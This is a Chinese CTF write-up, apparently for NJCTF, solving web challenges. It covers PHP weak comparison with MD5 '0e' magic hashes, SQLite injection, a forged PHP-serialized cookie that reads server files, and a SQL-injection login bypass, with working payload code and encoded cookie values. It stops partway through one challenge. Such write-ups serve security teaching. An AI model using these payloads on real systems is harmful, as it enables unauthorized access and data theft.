<center></center>

本来想用python找一下，还是太麻烦直接搜一下

```
MD5值==0小结
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
```

```
更加全面的表格！！！
Hash Type       Hash Length     “Magic” Number / String     Magic Hash                                      Found By
md2             32                  505144726               0e015339760548602306096794382326                WhiteHat Security, Inc.
md4             32                  48291204                0e266546927425668450445617970135                WhiteHat Security, Inc.
md5             32                  240610708               0e462097431906509019562988736854                Michal Spacek
sha1            40                  10932435112             0e07766915004133176347055865026311692244        Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham
sha224          56                  –                       –                                               –
sha256          64                  –                       –                                               –
sha384          96                  –                       –                                               –
sha512          128                 –                       –                                               –
ripemd128       32                  315655854               0e251331818775808475952406672980                WhiteHat Security, Inc.
ripemd160       40                  20583002034             00e1839085851394356611454660337505469745        Michael A Cleverly
ripemd256       64                  –                       –                                               –
ripemd320       80                  –                       –                                               –
whirlpool       128                 –                       –                                               –
tiger128,3      32                  265022640               0e908730200858058999593322639865                WhiteHat Security, Inc.
tiger160,3      40                  13181623570             00e4706040169225543861400227305532507173        Michele Spagnuolo
tiger192,3      48                  –                       –                                               –
tiger128,4      32                  479763000               00e05651056780370631793326323796                WhiteHat Security, Inc.
tiger160,4      40                  62241955574             0e69173478833895223726165786906905141502        Michele Spagnuolo
tiger192,4      48                  –                       –                                               –
snefru          64                  –                       –                                               –
snefru256       64                  –                       –                                               –
gost            64                  –                       –                                               –
adler32         8                   FR                      00e00099                                        WhiteHat Security, Inc.
crc32           8                   2332                    0e684322                                        WhiteHat Security, Inc.
crc32b          8                   6586                    0e817678                                        WhiteHat Security, Inc.
fnv132          8                   2186                    0e591528                                        WhiteHat Security, Inc.
fnv164          16                  8338000                 0e73845709713699                                WhiteHat Security, Inc.
joaat           8                   8409                    0e074025                                        WhiteHat Security, Inc.
haval128,3      32                  809793630               00e38549671092424173928143648452                WhiteHat Security, Inc.
haval160,3      40                  18159983163             0e01697014920826425936632356870426876167        Independently found by Michael Cleverly & Michele Spagnuolo
haval192,3      48                  48892056947             0e4868841162506296635201967091461310754872302741 Michael A. Cleverly
haval224,3      56                  –                       –   –
haval256,3      64                  –                       –   –
haval128,4      32                  71437579                0e316321729023182394301371028665                WhiteHat Security, Inc.
haval160,4      40                  12368878794             0e34042599806027333661050958199580964722        Michele Spagnuolo
haval192,4      48                  –                       –   –
haval224,4      56                  –                       –   –
haval256,4      64                  –                       –   –
haval128,5      32                  115528287               0e495317064156922585933029613272                WhiteHat Security, Inc.
haval160,5      40                  33902688231             00e2521569708250889666329543741175098562        Michele Spagnuolo
haval192,5      48                  52888640556             0e9108479697641294204710754930487725109982883677 Michele Spagnuolo
haval224,5      56                  –                       –                                               –
haval256,5      64                  –                       –                                               –
```

然后就是常规的sqllite的注入，之前没怎么接触过这个，不过搜一下发现是最最基本的注入。首先sqlite同sql不太一样，他的很多信息都在sqllite_master这个表中，那么我们可以通过搜索tbl_name或者name找到数据库中有什么表，然后我们可以用sql搜索其中执行语句的记录。然后我们看一下即可，如图

<center></center>

### **Text wall**

本题居然想了这么长时间…也是学习到了新的姿势了，首先本来想用老方法扫一遍目录，但是没什么收获，想到过是不是.bak，但是并不是，经过提示发现是.swo扩展。部分源代码在`http://218.2.197.235:23721/.index.php.swo`

```
<?php
$lists = [];
Class filelist{
    public function __toString()
    {
        return highlight_file('hiehiehie.txt', true).highlight_file($this->source, true);
    }
}
........
?>
```

然后我们可以看到有一个$list数组，还有类filelist，值得注意的是其中有__toString()这个函数！具体__toString()是做什么的可以通过以下代码大致了解一下

```
<?php
class Person{
    private $name = "";
    function __construct($name = ""){

        $this->name = $name;
    }
    function say(){

        echo "Hello,".$this->name."!<br/>";  
    }
    function __tostring(){
        return  "Hello,".$this->name."!<br/>";    
    }
}
$WBlog = new Person('WBlog');
echo $WBlog;
$WBlog->say();
?>
```

简单说就是当你直接调用类这个object的时候，输出的是__tostring()方法中的内容。我们具体看这个__tostring()最后返回的是类中$source变量（为文件路径）的文件内容。那么我们可以通过这个得到index.php的完整文件。

然后我们呢再观察一下post之后是什么效果

<center></center>

然后我们观察一下cookie会发现很有意思，40位之后的是序列化的东西，前40位是sha1(40位之后的内容)。而且我们发现反序列化的内容就是页面输出的内容，我们可以理解为cookie传值，然后源程序输出了其中的cookie变量反序列化后的值。

那么结合我们想得到index.php所要使用的__tostring()的性质。我们构造序列化的串（反序列化后是一个filelist类，$sorce值是我们想查找的路径，这样在反序列化后）这里我们构造如下

```
<?php
Class filelist{
    public function __toString()
    {
        return highlight_file('hiehiehie.txt', true).highlight_file($this->source, true);
    }
}
$a = new filelist();
$b= new filelist();
$b->source = 'index.php';
$a->source=$b;
$d=serialize($a);
$e=sha1($d).$d;
echo urlencode($e);
?>
```

这个时候输出$b这个类的时候,$b->$sorce=$a.再输出$a的时候就会触发$a的__tostring()函数。

得到结果如下：

```
lists=16d8c3c46653e89932859dd7a2eb12fa59df777aO%3A8%3A%22filelist%22%3A1%3A%7Bs%3A6%3A%22source%22%3BO%3A8%3A%22filelist%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A9%3A%22index.php%22%3B%7D%7D 
```

将之放到cookie之中的lists中可以得到了源码！

同理构造

```
<?php
Class filelist{
    public function __toString()
    {
        return highlight_file('hiehiehie.txt', true).highlight_file($this->source, true);
    }
}

$b= new filelist();
$b->source = '/var/www/PnK76P1IDfY5KrwsJrh1pL3c6XJ3fj7E_fl4g';
$a = array($b);
$d=serialize($a);
$e=sha1($d).$d;
echo urlencode($e);
?>
```

得到cookie

```
lists=579574889b2cc082443598ee85d9a4839698a948a%3A1%3A%7Bi%3A0%3BO%3A8%3A%22filelist%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A46%3A%22%2Fvar%2Fwww%2FPnK76P1IDfY5KrwsJrh1pL3c6XJ3fj7E_fl4g%22%3B%7D%7D
```

<center></center>

NJCTF{PHP_un5erialization_a77ack_i5_very_Interes71ng}

### **Be admin**

首先进去之后什么都没找到，没什么思路，然后去用目录文件扫描一下。得到一定的结果

<center></center>

特别是.bak文件值得注意，下载后源码观察到后面104-130行主函数

```
if (isset($_POST['username']) && isset($_POST['password'])) {
    $username = (string)$_POST['username'];
    $password = (string)$_POST['password'];
    $query = "SELECT username, encrypted_pass from users WHERE username='$username'";
    $res = $conn->query($query) or trigger_error($conn->error . "[$query]");
    if ($row = $res->fetch_assoc()) {
        $uname = $row['username'];
        $encrypted_pass = $row["encrypted_pass"];
    }

    if ($row && login($encrypted_pass, $password)) {
        echo "you are in!" . "</br>";
        get_identity();
        show_homepage();
    } else {
        echo "<script>alert('login failed!');</script>";
        need_login("Login Failed!");
    }

} else {
    test_identity();
    if (isset($_SESSION["id"])) {
        show_homepage();
    } else {
        need_login();
    }
}
```

首先username和password要有输入，然后用qurey查询，如果$row为true（即查询语句查询成功有返回值，而且login（）函数验证成功则可以进一步验证）。那么我们再看47-54行的login函数

```
function login($encrypted_pass, $pass)
{
    $encrypted_pass = base64_decode($encrypted_pass);
    $iv = substr($encrypted_pass, 0, 16);
    $cipher = substr($encrypted_pass, 16);
    $password = openssl_decrypt($cipher, METHOD, SECRET_KEY, OPENSSL_RAW_DATA, $iv);
    return $password == $pass;
}
```

发现返回值来自==弱匹配！其中$pass来自用户输入的password，$encrypted_pass就是上面主函数中查询的语句。

然后我们看到php 中openssl_decrypt中的说明

<center></center>

那么构造openssl_decrypt()函数失败即可，而且我们已经知道了查询的语句，只要让查询不是想要的值，<font size="4">最终使得变量$iv初始变量位数不足导致报错！</font> 构造语句如下

```
username = -1' union select 1,1 ;#
password = 0 
```

（PS： -1保证了前面没有查询的返回值，而select 1,1因为表中查询的是两个变量保证$row有返回值）

按道理登陆后应该到了这里，然后我们可以得到代码中的$ID和$token值

<center></center>

ID=wN3igCPo2FjsVxDUJ5pj5w%3D%3D
token=X1jsW%2FWCeoYP4pI%2BK22MHQ%3D%3D

（未完待续）